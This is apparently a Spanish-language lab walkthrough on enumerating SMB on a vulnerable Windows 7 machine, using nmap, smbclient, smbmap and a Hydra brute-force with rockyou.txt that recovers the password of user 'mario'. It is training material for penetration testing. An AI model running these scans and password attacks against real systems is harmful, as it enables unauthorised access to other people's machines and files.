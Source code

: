 # Enumeración y Explotación Básica del Protocolo SMB (Puerto 445)

Maquina que vamos a utilizar **Kali Linux y Windows 7 vulnerable** ([https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing](https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing))

<aside>
💡

El protocolo SMB (Server Message Block) es un protocolo de red que permite compartir archivos, impresoras y otros recursos en una red local o a través de Internet. El puerto 445 es utilizado por SMB para comunicarse directamente sobre TCP/IP, eliminando la necesidad de NetBIOS. 

Sin embargo, SMB v1 tiene vulnerabilidades de seguridad significativas y ya no se recomienda su uso. Microsoft ha deshabilitado SMB v1 de forma predeterminada en versiones modernas de Windows debido a su susceptibilidad a ataques.

</aside>

Cuando realizamos un escaneo de puertos con nmap, es muy frecuente encontrarnos con el puerto 445 abierto dentro de una máquina windows. Esto significa que el protocolo SMB está funcionando en el objetivo; y se trata de un protocolo el cual se puede enumerar haciendo uso de distintas herramientas. Además de ser susceptible a ataques de fuerza bruta utilizando hydra.

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.6 -oN escaneo
```

![image.png](./imagenes/image%201.png)

- ¿Cómo puedo listar recursos compartidos por el protocolo SMB?
    
    Vamos a utilizar la **herramienta smbclient** para sacar estos recursos compartidos sin tener credenciales.
    
    ```bash
    smbclient -L 10.0.3.6 -N
    ```
    
    <aside>
    💡
    
    **`smbclient`**: Es una herramienta de línea de comandos que permite interactuar con servidores SMB/CIFS. Es parte del paquete Samba, comúnmente usado en sistemas basados en Linux y Unix.
    
    **`L`**: Esta opción indica que **deseas listar los recursos compartidos** disponibles en el servidor especificado.
    
    **`10.0.3.6`**: Es la dirección **IP del servidor SMB** al que te estás conectando.
    
    **`N`**: Significa que **no se enviará una contraseña al servidor**. Esto es útil **si el servidor permite acceso anónimo**.
    
    </aside>
    
    ![image.png](./imagenes/image%202.png)
    
    En este caso **el servidor no permite acceso sin contraseña**.
    
- Vamos a hacer un ataque por fuerza bruta con Hydra **sabiendo el usuario** (Mario)pero **no la contraseña**.
    
    ```bash
    hydra -l mario -P /usr/share/wordlists/rockyou.txt smb://10.0.3.6
    ```
    
    ![image.png](./imagenes/image%203.png)
    
- Sabiendo ya el usuario y contraseña vamos a listar los recursos compartidos.
    
    ```bash
    smbclient -L //10.0.3.6 -U 'mario’
    ```
    
    ![image.png](./imagenes/image%204.png)
    
    Pero tenemos un problema con esta información no puedo saber a que recursos podría acceder con las credenciales que tengo.
    
- Usaremos la **herramienta smbmap** que hace lo mismo que smbclient pero además nos **indica que  recursos tengo permisos**.
    
    ```bash
    smbmap -H 10.0.3.6 -u 'mario' -p '123123’
    ```
    
    ![image.png](./imagenes/image%205.png)
    
- Vamos a ver como puedo **entrar** dentro del **recurso compartido Users** al que tengo permiso.
    
    ```bash
    smbclient -U 'mario' //10.0.3.6/Users 
    ```
    
    ![image.png](./imagenes/image%206.png)
    
    ![image.png](./imagenes/image%207.png)
    
    Aquí estamos accediendo a una parte de la maquina victima. Como vemos no nos deja salir mas allá del recurso compartido.
    
    ![image.png](./imagenes/image%208.png)